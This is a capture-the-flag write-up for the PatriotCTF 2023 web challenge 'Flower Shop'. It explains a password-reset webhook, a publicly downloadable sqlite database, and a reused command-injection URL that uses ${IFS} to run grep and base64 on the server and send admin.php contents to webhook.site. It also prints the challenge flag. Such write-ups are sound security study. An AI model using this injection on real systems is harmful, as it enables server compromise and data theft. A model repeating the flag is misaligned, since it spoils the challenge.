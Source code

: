 # \[Web\] - Flower Shop

**NOTE** - just skip ahead to the [shortcut](#shortcut)
#### Difficulty = Medium
#### Points = Dynamic Scoring

## Prompt

Flowers!
Flag format: CACI{}

`http://chal.pctf.competitivecyber.club:5000/`

#### Provided Files
- [FlowerShop.zip](./files/patriotctf2023/FlowerShop.zip)

## Write Up

The index page has three forms which allow us to sign up, log in, and reset the password for our account on this web app.

The first thing that catches my attention is the webhook url required on the sign up page. The reset mechanism is probably the intended path for this challenge.  
![Index Page](../images/patriotctf2023/flowershop_index.png)  

From unzipping the zip archive I can see that there is an `admin.php`. This is the page that contains the flag as we can see on line #19. On line #10 we can see that we have to be logged in as admin to access this page.  
![Admin Page Source](../images/patriotctf2023/flowershop_admin.png)  

In line #36 of `/app/classes/dbh.php` we can see that the initial webhook set up for the admin is a dummy link. We need a way to overwrite this, probably an SQLi somewhere.  
![Initial Admin Webhook](../images/patriotctf2023/flowershop_dummy_link.png)  

The way the password reset works is that when a reset is requested, the web application will make a POST request to the webhook URL with a temporary password as the argument to `tmp_pass` parameter.

The temporary password is built using the following:
- 8 character random string -> randomness from `mt_rand()`
- unix time stamp seconds
- unix time stamp microseconds
- process pid 

##### Shortcut
I just realized that the sqlite database is publicly accessible. I downloaded it and checked the webhook of the admin account and it looks unchanged so that is not the intended path.  
![Database](../images/patriotctf2023/flowershop_sqlite.png)  

I kept looking through the database and found the webhooks that other people have been using. Here is a very  interesting one:  
![Webhook](../images/patriotctf2023/flowershop_webhook.png)  
- `https://webhook.site/3712abfc-f3c3-4c98-adbd-e187eda1cc15?a=grep${IFS}CACI${IFS}../admin.php${IFS}|${IFS}base64` 

In the `/app/scripts/sendpass.php` file we can see that the temp password POST request is being done via `curl`, this person injected a command into the url that would read the flag from the `admin.php` file on the server side and encode it in base64 to escape the bad characters.

I signed up for a new account with my own webhook using the same command injection and sure enough I get the base64 encoded flag.  
![Encoded Flag](../images/patriotctf2023/flowershop_encoded.png)  

Last step is to decode.
![Flag](../images/patriotctf2023/flowershop_decoded.png)  

## Flag

`CACI{y0uv3_f0und_th3_rar3st_s33d_0f_all!}`